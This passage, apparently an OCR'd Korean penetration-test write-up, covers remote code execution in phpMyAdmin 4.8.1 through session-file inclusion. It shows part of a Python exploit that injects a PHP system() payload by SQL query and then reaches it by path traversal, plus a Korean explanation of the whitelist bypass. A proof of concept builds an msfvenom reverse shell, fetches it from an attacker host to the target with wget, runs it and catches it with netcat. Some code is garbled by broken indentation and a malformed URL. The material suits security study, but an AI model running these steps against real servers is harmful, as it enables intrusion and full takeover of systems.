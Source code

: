     # 3rd req: execute query
    url2 = url + "/import.php"
    # payload
    payload = '''select '<?php system("{}") ?>';'''.format(command)
    p = {'table':'', 'token': token, 'sql_query': payload }
    r = requests.post(url2, cookies = cookies, data = p)
    if r.status_code != 200:
    print("Query failed")
    exit()

    # 4th req: execute payload
    session_id = cookies.get_dict()['phpMyAdmin']
    url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)
    r = requests.get(url3, cookies = cookies)
    if r.status_code != 200:
    print("Exploit failed")
    exit()

                        [...]
    ```

  - 정리하면 /import.php에 페이로드를 추가하여 POST형식으로 전달하여 sql쿼리를 실행하고 이로 인해 생성된 사용자의 세션파일안에 쿼리값이 포함되며
  `/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)`를 target 파라미터에 삽입을 시도하나 checkPageValidity 함수에서 ?기준으로 검증을 하고 있으므로 처음에는 `db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)`가 $_page 값으로 반환되고 다시 mb_substr함수를 통하여 $_page 값으로 반한된 `db_sql.php`가 $goto_whitelist에 들어있는 문자열 중 하나와 일치하므로 checkPageValidity 함수가 True 값을 반환하여 이로인해 include 함수에 포함된 세션파일 안의 포함되어 있는 사용자가 입력한 원격 코드가 실행되는 것으로 보인다.

#### 개념 증명
 - 점검자는 칼리 리눅스 내 `searchsploit` 도구를 사용하여 phpMyAdmin 4.8.1 원격코드 실행 개념 증명 익스플로잇 코드를 확보했다. 이후, 개념 증명을 위한 리버스 쉘 페이로드를 생성하였으며, 명령어는 다음과 같다.
    ```sh
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.140 LPORT=443 -f elf -o revshell.elf
    ```
 - 익스플로잇 코드를 통하여 생성한 리버스 쉘을 호스트에 전송하고 실행권한을 준 뒤 이를 수행하였고, 익스플로잇 성공을 확인했다.
    ```sh
    # 익스플로잇 코드를 통해 리버스 쉘 전송
    └ # python3 -m http.server 3333

    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "wget http:10.8.0.140:3333/revshell.elf -O /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "chmod +x /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "/tmp/reverse"

    # 리버스 쉘 획득
    └ # nc -lvnp 443
